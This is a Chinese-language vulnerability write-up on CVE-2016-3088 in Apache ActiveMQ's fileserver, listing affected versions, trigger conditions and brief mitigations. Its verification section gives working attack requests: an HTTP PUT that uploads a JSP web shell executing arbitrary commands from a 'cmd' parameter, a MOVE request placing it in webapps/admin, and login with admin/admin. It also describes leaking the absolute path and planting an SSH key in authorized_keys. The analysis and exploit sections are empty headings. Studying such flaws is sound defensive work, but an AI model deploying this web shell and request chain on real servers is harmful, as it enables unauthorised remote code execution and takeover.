




# CVE-2016-3088分析

------------------------------------------  

### 0x00 前言  

### 0x01 目录  
1. 漏洞概述
2. 漏洞验证
3. 防护措施
4. 分析
5. exploit

### 0x02 正文
__1. 漏洞概述__  

1. 漏洞信息  
	按照官方说法的影响版本为： `5.0.0 - 5.13.2`；
	在这些版本中，由于开启了 fileserver 服务，用户可以上传任意文件，从而造成代码执行；除此之外，该服务还会爆出 web 项目的绝对路径。在代码执行的过程中，能执行的目录下可能需要验证用户，这里可以使用弱口令，或者将 ssh 公钥写入到 .ssh/authorized_keys 中，从而直接使用 ssh 登陆。
2. 触发条件  

step1: 使用 put 方法将需要执行的文件上传到服务器上  
step2: 使用 move 方法将文件移动到可执行目录下  
step3: 使用弱口令登陆，代码执行   

>由官方所说的影响版本，测试过程中发现有很多不稳定的情况，部分版本访问 fileserver 目录出现 500，部分版本不能将文件已到可执行目录下，部分版本需要验证用户，有些不需要。
	

__2. 漏洞验证__  
1. 验证环境：  
 `windows7`  
 `activeMQ 5.10.0`

2.使用 BurpSuite 发送 HTTP 请求上传文件：  
这里要注意一下，首先文件只能上传到 fileserver 目录下，在 fileserver 目录下，不能上传 jsp 文件，也不能执行 jsp 文件。

	PUT /fileserver/1.txt HTTP/1.1
	Host: 127.0.0.1:8161
	Content-Length: 370

	<%@ page import="java.io.*"%>

	<%
	    out.print("Hello ");
	
		String strcmd = request.getParameter("cmd");
		String line = null;
	
		Process p=Runtime.getRuntime().exec("cmd /c "+ strcmd);
		BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));

		while((line = br.readLine()) != null) {
		    out.print(line + " "); 
		}
	%>

3.使用 BurpSuite 将文件移到可执行目录 webapps/admin 下：

	MOVE /fileserver/1.txt HTTP/1.1
	Host: 127.0.0.1:8161
	Destination: file:../webapps/admin/1.jsp
	Content-Length: 0
	


4.访问 `127.0.0.1:8161/admin/1.jsp?cmd=dir`，这里 activeMQ 5.10.0 需要登录，使用弱口令 `admin/admin`：

###### 其他姿势：  
1.访问 fileserver 加一个不可见字符(url编码形式)可以爆出绝对路径：  
url编码下的不可见字符，比如： `%01-%0D`  

2.如果是 linux 环境下，可以使用上面的步骤，为了绕过用户验证，将公钥写入 .ssh/authorized_keys 中，使用 ssh 登陆。

__3. 防护措施__  
1.升级至 5.13.2 过后的版本  
2.官方可以禁止 MOVE 方法  
3.官方可以修改 MOVE 方法，不允许 MOVE 到可执行目录和 web 项目外的目录

__4. 分析__  
__5. exploit__  

 

------------------------------------------
References:  
简书: <http://www.jianshu.com/p/db23dcb99dcc>  
ifun01:  <https://ifun01.com/BCAJFZG.html>  

Author: xx  
Time: 2017.7.3